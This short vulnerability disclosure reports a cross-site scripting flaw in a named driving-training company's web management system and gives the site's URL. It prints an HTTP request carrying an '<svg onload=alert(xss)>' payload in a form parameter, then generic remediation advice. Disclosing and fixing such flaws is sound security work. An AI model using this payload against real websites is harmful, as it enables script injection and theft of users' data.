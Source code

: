 

Fuzhou Middle Road Automobile training Co., LTD
XSS vulnerability exists in the driving training service management system

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

http://www.hdschina.com/jx.html

```
GET /?10000000=ds5x3&__EVENTTARGET=nt5s9&__VIEWSTATE=__VIEWSTATE=<svg onload=alert(xss)>//&callback=genz6&code=gj8d8&gw_news=gb209&item=zj685&jsonp=db776&l=q1n18&name=kwm75&page_id=mn038&password=crsu4&q=bh0q0&redirect=eswo5&src=v8gc0&text=njmb1&tid=bmo19&txt_name=mezp4&unsubscribe_token=i20d8&view=x2zf0 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip

```

![3](3.png)

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.